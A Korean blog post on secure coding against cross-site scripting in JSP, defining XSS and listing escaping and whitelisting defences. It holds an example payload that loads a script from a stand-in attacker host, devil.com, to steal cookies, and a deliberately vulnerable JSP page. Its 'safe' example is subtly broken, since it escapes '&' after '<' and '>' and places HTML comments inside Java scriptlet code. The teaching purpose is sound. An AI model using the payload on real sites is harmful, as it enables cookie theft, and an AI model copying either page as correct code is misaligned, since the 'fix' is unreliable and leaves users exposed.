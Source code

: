 ```yaml
---
title: 크로스 사이트 스크립트
date: 2021-09-14 06:00:00 +0900
categories: [Language, Java]
tags: [cross-site-scripting, 크로스-사이트-스크립트]
---
```


## 1. 정의
크로스 사이트 스크립트(Improper Neutralization of Input During Web Page Generation, Cross-site Scripting)는 웹 페이지에 악의적인 스크립트를 포함해 사용자 측에서 실행되게 유도할 수 있다.

예를 들어 검증되지 않은 외부 입력이 동적 웹 페이지 생성에 사용될 경우, 전송된 동적 웹 페이지를 열람하는 접속자의 권한으로 부적절한 스크립트가 수행되어 정보 유출 등의 공격을 유발할 수 있다.

![cross-site-scripting](/assets/img/2021-09-14-cross-site-scripting/cross-site-scripting.png)

## 2. 안전한 코딩 기법

* 일반적으로는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 ```<, >, &, "``` 등을 replace 등의 문자 변환 함수나 메소드를 사용하여 ```&lt, &gt, &amp, &quot```로 치환한다.

* HTML 태그를 허용하는 게시판에서는 게시판에서 지원하는 HTML 태그의 리스트(White List)를 선정한 후, 해당 태그만 허용하는 방식을 적용한다.

* 보안성이 검증된 API를 사용하여 위험한 문자열을 제거하여야 한다.

## 3. 예제
다음의 예제는 외부 입력을 name 값으로, 특별한 처리 과정 없이 결과 페이지 생성에 사용하고 있다. 만약 악의적인 공격자가 name 값에 다음의 스크립트를 넣으면, 희생자의 권한으로 attack.jsp 코드가 수행되게 되며, 수행하게 되면 희생자의 쿠키 정보 유출 등의 피해를 주게 된다.

예) ```<script>url = "http://devil.com/attack.jsp;</script>```

* 안전하지 않은 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>

    <body>
        <h1>XSS Sample</h1>
        <%
        <!- 외부로 부터 이름을 받음-->
        String name = request.getParameter("name");
        %>
        <!-- 외부로 부터 받은 name이 그대로 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

다음의 예제와 같이 외부 입력 문자열에서 replaceAll() 메소드를 사용하여 ```<```와 ```>``` 같이 HTML에서 스크립트 생성에 사용되는 모든 문자열을 ```&lt;, &gt;, &amp;, &quot;``` 같은 형태로 변경함으로써 악의적인 스크립트 실행의 위험성을 줄일 수 있다. 그러나 이러한 방법이 위험성을 완전히 저거 했음을 의미하지는 않는다.

* 안전한 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    
    <body>
        <h1>XSS Sample</h1>
        <%
        <!-- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        
        <!-- 외부의 입력값에 대한 검증을 한다. -->
        if ( name != null ) {
            name = name.replaceAll("<","&lt;");
            name = name.replaceAll(">","&gt;");
            name = name.replaceAll("&","&amp;");
            name = name.replaceAll("\"","&quot;");
        } else {
            return;
        }
        %>
        <!-- 외부 로 부터 받은 name에서 '위험 문자'를 제거한 후 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

## [출처 및 참고]
* <https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=>
